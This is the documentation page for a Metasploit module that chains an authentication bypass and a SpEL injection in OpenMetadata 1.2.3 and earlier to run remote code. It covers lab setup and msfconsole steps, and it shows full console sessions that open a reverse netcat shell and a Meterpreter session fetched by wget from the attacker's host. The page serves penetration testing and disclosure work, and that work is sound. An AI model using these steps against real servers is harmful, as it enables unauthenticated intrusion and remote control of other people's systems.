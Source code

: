 ## Vulnerable Application

OpenMetadata is a unified platform for discovery, observability, and governance powered by a central metadata repository,
in-depth lineage, and seamless team collaboration.
This module chains two vulnerabilities that exist in the OpenMetadata application.
The first vulnerability, [CVE-2024-28255](https://nvd.nist.gov/vuln/detail/CVE-2024-28255), bypasses the API authentication
using JWT tokens. It misuses the `JwtFilter` that checks the path of url endpoint against a list of excluded endpoints
that does not require authentication.
Unfortunately, an attacker may use Path Parameters to make any path contain any arbitrary strings that will match the
excluded endpoint condition and therefore will be processed with no JWT validation allowing an attacker to bypass the
authentication mechanism and reach any arbitrary endpoint.
By chaining this vulnerability with [CVE-2024-28254](https://nvd.nist.gov/vuln/detail/CVE-2024-28254), that allows for
arbitrary SpEL injection at endpoint `/api/v1/events/subscriptions/validation/condition/<expression>`,attackers are able
to run arbitrary commands using Java classes such as `java.lang.Runtime` without any authentication.

OpenMetadata versions `1.2.3` and below are vulnerable.

The following releases were tested.
* OpenMetadata 1.2.3 on Docker

## Installation steps to install the OpenMedata running on Docker
* Please follow these [installation instructions](https://docs.open-metadata.org/v1.3.x/quick-start/local-docker-deployment).
* Please ensure that you download version 1.2.3 or below.
* After successful installation your should be able to access OpenMetadata on port 8585 at `http://your_openmetadata_ip:8585`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/openmetadata_auth_bypass_rce`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ]  `set lhost <attacker-ip>`
- [ ] `set target <0=Unix Command, 1=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse netcat shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
No specific options

## Scenarios
```msf
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > info

       Name: OpenMetadata authentication bypass and SpEL injection exploit chain
     Module: exploit/linux/http/openmetadata_auth_bypass_rce
   Platform: Unix, Linux
       Arch: cmd, x64, x86
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-03-15

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Matias Puerta alias tutte (https://github.com/tutte)

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix Command
      1   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                        html
  RPORT      8585             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       The URI path of the OpenMetadata web application
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.
                                      0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  OpenMetadata is a unified platform for discovery, observability, and governance powered
  by a central metadata repository, in-depth lineage, and seamless team collaboration.
  This module chains two vulnerabilities that exist in the OpenMetadata aplication.
  The first vulnerability, CVE-2024-28255, bypasses the API authentication using JWT tokens.
  It misuses the `JwtFilter` that checks the path of url endpoint against a list of excluded
  endpoints that does not require authentication. Unfortunately, an attacker may use Path Parameters
  to make any path contain any arbitrary strings that will match the excluded endpoint condition
  and therefore will be processed with no JWT validation allowing an attacker to bypass the
  authentication mechanism and reach any arbitrary endpoint.
  By chaining this vulnerability with CVE-2024-28254, that allows for arbitrary SpEL injection
  at endpoint `/api/v1/events/subscriptions/validation/condition/<expression>`, attackers
  are able to run arbitrary commands using Java classes such as `java.lang.Runtime` without any
  authentication.
  OpenMetadata versions `1.2.3` and below are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-28255
  https://nvd.nist.gov/vuln/detail/CVE-2024-28254
  https://github.com/open-metadata/OpenMetadata/security/advisories/GHSA-6wx7-qw5p-wh84
  https://attackerkb.com/topics/f19fXpZn62/cve-2024-28255
  https://ethicalhacking.uk/unmasking-cve-2024-28255-authentication-bypass-in-openmetadata/

View the full module info with the info -d command.
```
### OpenMetadata 1.2.3 Unix command - cmd/unix/reverse_netcat_gaping
```msf
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set target 0
target => 0
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set payload cmd/unix/reverse_netcat_gaping
payload => cmd/unix/reverse_netcat_gaping
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set rhosts 192.168.201.42
rhosts => 192.168.201.42
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of OpenMetadata.
[+] The target is vulnerable. Version 1.2.3
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[*] Command shell session 17 opened (192.168.201.8:4444 -> 192.168.201.42:55160) at 2024-07-29 15:27:38 +0000

id
uid=1000(openmetadata) gid=1000(openmetadata) groups=1000(openmetadata)
pwd
/opt/openmetadata
uname -a
Linux 1e3c578a0acc 6.6.32-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Jun 13 14:14:43 UTC 2024 x86_64 Linux
```
### OpenMetadata 1.2.3 Linux Dropper -  linux/x64/meterpreter/reverse_tcp
```msf
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set target 1
target => 1
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/openmetadata_auth_bypass_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of OpenMetadata.
[+] The target is vulnerable. Version 1.2.3
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/WnMaYO
[*] Client 192.168.201.42 (Wget) requested /WnMaYO
[*] Sending payload to 192.168.201.42 (Wget)
[*] Command Stager progress -  50.46% done (55/109 bytes)
[*] Command Stager progress -  70.64% done (77/109 bytes)
[*] Sending stage (3045380 bytes) to 192.168.201.42
[*] Command Stager progress -  82.57% done (90/109 bytes)
[*] Command Stager progress - 100.00% done (109/109 bytes)
[*] Meterpreter session 18 opened (192.168.201.8:4444 -> 192.168.201.42:55205) at 2024-07-29 15:30:41 +0000
[*] Server stopped.

meterpreter > getuid
Server username: openmetadata
meterpreter > sysinfo
Computer     : 172.16.240.4
OS           :  (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/opt/openmetadata
meterpreter >
```
## Limitations
Only limited payloads will work, so stick to the default payloads configured at the module.
